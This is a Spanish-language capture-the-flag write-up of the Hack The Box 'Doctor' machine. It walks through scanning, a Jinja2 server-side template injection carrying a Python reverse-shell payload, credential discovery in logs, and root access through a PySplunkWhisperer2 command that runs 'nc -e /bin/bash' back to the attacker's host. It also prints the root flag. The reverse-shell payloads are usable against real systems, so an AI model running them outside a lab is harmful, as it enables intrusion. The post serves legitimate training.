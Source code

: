 ```yaml
---
layout: post
title: Write-Up Máquina Doctor HTB
date: 2021-01-30 16:00 +0800
last_modified_at: 2021-01-30 16:10 +0800
tags: [htb, writeup, linux, splunk, ssti]
toc:  true
---
```


![Doctor-info-card](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-info-card.png)

## Introducción

La máquina doctor, Es una máquina de dificultad fácil la cual corre un sistema linux de 64 bits. Para explotar esta máquina vamos utilizar una [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection) para obtener una reverse shell inicial. Una vez obtenida encontraremos una password que nos servirá para obtener el usuario. Para la escalada de privilegios, explotaremos el servicio splunk con las credenciales del usuario shaun.

---
## Escaneo

```bash
nmap  10.10.10.209 -p- -sV -sC --min-rate=5000                                                                                    

Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 15:02 CET
Nmap scan report for doctor.htb (10.10.10.209)
Host is up (0.031s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.70 seconds
```
Esta máquina tiene 3 puertos abiertos:
* Puerto 22: SSH
* Puerto 80: HTTPd (apache)
* Puerto 8089: HTTP (Splunk)


### Puerto 22
En el puerto 22 Nos encontramos con el un servidor SSH.

### Puerto 80
En el puerto 80, nos encontramos con un servidor web apache. En este caso si accedemos a través de la IP nos encontramos con una pagina estática. En ella podemos ver un correo con un dominio. 

![Doctor-email](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-email.png)

### Puerto 8089
En el puerto 8089, nos encontramos con un servidor de splunk.

---
## Enumeración

Si añadimos el dominio doctors.htb y accedemos al la web, nos encontramos con una pagina de login, la cual tiene una opción para registrar una cuenta.

![Doctor-login](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-login.png)

Vamos a registrar una cuenta y accedemos a la web principal. Una vez ahi se nos da la opción de postear un nuevo mensaje.

Vamos a postear un mensaje nuevo.

![Doctor-new-message](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-new-message.png)
![Doctor-posted-message](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-posted-message.png)

Vemos que podemos ver los mensajes que escribimos. Si vamos a view-source:http://doctors.htb/archive vemos que el título de el post aparece reflejado. Esto es indicativo de un posible server-side template injection.

---
## Explotación

Para la explotación vamos a crear un nuevo post con nuestro payload en el título, ya que es el título  lo que se refleja.

En este caso el payload va a ser una reverse shell en python, ya que el backend de la página es una implementación de flask.
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

En este caso nuestro payload sera el siguiente:

<code>
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<tuIP>\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
</code>


Una vez creemos el post nuevo accederemos a http://doctors.htb/archive recibiremos nuestra reverse en el puerto 1234.

![Doctor-reverse-shell](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-reverse-shell.png)

Ya que tenemos una reverse shell, vamos a enumerar la maquina en busca de pistas para obtener el usuario. Para esto vamos a subir el script de [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) y vamos a enumerar la máquina.

```log
[+] Finding passwords inside logs (limit 70)
Binary file /var/log/apache2/access.log.12.gz matches
Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
Binary file /var/log/journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001.journal matches
Binary file /var/log/kern.log.2.gz matches
Binary file /var/log/kern.log.4.gz matches
Binary file /var/log/syslog.4.gz matches
/var/log/apache2/access.log:10.10.14.29 - - [04/Feb/2021:15:51:36 +0100] "GET /reset_password HTTP/1.1" 200 1812 "-" "gobuster/3.0.1"
/var/log/apache2/access.log:10.10.14.29 - - [04/Feb/2021:16:39:18 +0100] "GET /reset_password HTTP/1.1" 200 1811 "-" "gobuster/3.0.1"
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
/var/log/auth.log.1:Sep 22 13:01:23 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 22 13:01:28 doctor sshd[1704]: Failed password for invalid user shaun from 10.10.14.2 port 40896 ssh2
/var/log/auth.log.1:Sep 23 15:38:45 doctor sudo:    shaun : command not allowed ; TTY=tty1 ; PWD=/home/shaun ; USER=root ; COMMAND=list
/var/log/auth.log.1:Sep 28 13:31:10 doctor sudo:     root : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=/usr/sbin/setcap -r /usr/bin/python3/
```

Vemos que en uno de los logs hay una contraseña y también se hace referencia al usuario shaun.

Vamos entonces a probar las credenciales:
* username: shaun
* password: Guitar123

```bash
web@doctor:/tmp$ su shaun
su shaun
Password: Guitar123

id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```
Como podemos ver ya somos usuario shaun y por tanto podemos ver la flag.

![Doctor-flag-user](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-flag-user.png)

---
## Escalada de privilegios

Al principio, vimos que la máquina tenia levantado un servidor de splunk en el puerto 8089. Si vamos a la URL https://10.10.10.209:8089/services nos pedirá unas credenciales. Ya que tenemos credenciales para el usuario shaun, vamos a probarlas.

![Doctor-services-splunk](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-services-splunk.png)

Como podemos comprobar tenemos acceso y las credenciales son validas. Una vez sabemos esto, vamos a buscar la forma de ejecutar comandos. 

Para este caso encontré una herramienta en github la cual nos permite de manera remota ejecutar una escalada de privilegios a traves de malas configuraciones en el [splunk universal forwarder](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/).

```bash
python3 PySplunkWhisperer2_remote.py --host doctors.htb --port 8089 --lhost 10.10.14.29 --user shaun --password Guitar123 --payload "nc.traditional -e /bin/bash '10.10.14.29' 1111"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpmj9na35k.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.29:8181/
10.10.10.209 - - [04/Feb/2021 19:59:20] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup
```
![Doctor-root-check](/assets/imagenes/2021-02-06-doctor-HTB/Doctor-root-check.png)

como podemos ver, recibimos la reverse shell y ya somos root.

```
cat /root/root.txt
76373cb2c7aee0a7cfb9c284801cd62b
```


